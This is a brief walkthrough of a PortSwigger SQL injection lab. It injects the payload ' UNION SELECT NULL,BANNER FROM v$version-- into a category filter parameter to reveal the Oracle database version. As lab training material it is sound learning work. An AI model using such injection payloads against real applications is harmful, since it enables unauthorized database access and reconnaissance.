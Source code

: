 ## Welcome, my friend. Today we will start the [4. SQLLI lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/7cf50f19-f988-4b5a-9271-96c8a6b90de1)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/8369c410-285f-4316-85e8-4d8a3af97a85)

### We discover this page and find category paramater   ```/filter?category=``` Is vulnerablity and inject this payload:

```
' UNION SELECT NULL,BANNER FROM v$version--
```

![image](https://github.com/user-attachments/assets/c36eaa20-2a09-441e-85ca-5a88d87b8d4b)

-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
